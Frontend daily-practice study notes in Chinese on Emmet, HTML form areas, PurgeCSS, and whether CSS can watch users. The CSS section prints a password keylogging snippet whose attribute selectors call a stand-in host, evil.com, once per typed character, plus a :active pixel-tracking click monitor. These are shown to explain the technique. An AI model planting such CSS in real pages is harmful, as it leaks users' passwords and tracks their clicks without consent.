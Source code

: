 ```yaml
---
title: '毎日のフロントエンド 342~345'
date: 2022-06-27T20:47:23+09:00
description: frontend 每日一练
categories:
  - HTML
  - CSS
---
```


## HTML

### HTML 插件

- [Abbreviations Syntax](https://docs.emmet.io/abbreviations/syntax/)

### 什么是表单域

- `<form></form>`标签中间的部分
- 当点击这个表单域中的 `submit` 按钮，就会把表单中的数据提交到 action 的属性指定的 url

## CSS

### 除无用 css

- [PurgeCSS - Remove unused CSS | PurgeCSS](https://purgecss.com/)

### css 能否监控到用户信息

- Keylogging

```css
input[type='password'][value$='a'] {
  background-image: url('http://evil.com/api/a');
}

input[type='password'][value$='b'] {
  background-image: url('http://evil.com/api/b');
}

input[type='password'][value$='c'] {
  background-image: url('http://evil.com/api/c');
}
```

- 当用户输入密码时，这段 css 会请求用户输入的字符对应的资源，远端服务器通过监视请求资源的顺序从而推断用户的密码

---

- 利用`:active` 伪类实现监控用户的点击

```css
.button-1:active::after {
  content: url(./pixel.gif?action=click&id=button1);
  display: none;
}
.button-2:active::after {
  content: url(./pixel.gif?action=click&id=button2);
  display: none;
}
```

## Reference

- [fe-interview/history.md](https://github.com/haizlin/fe-interview/blob/master/category/history.md)

- [CSS-Keylogging/keylogger.css at master · maxchehab/CSS-Keylogging](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css)

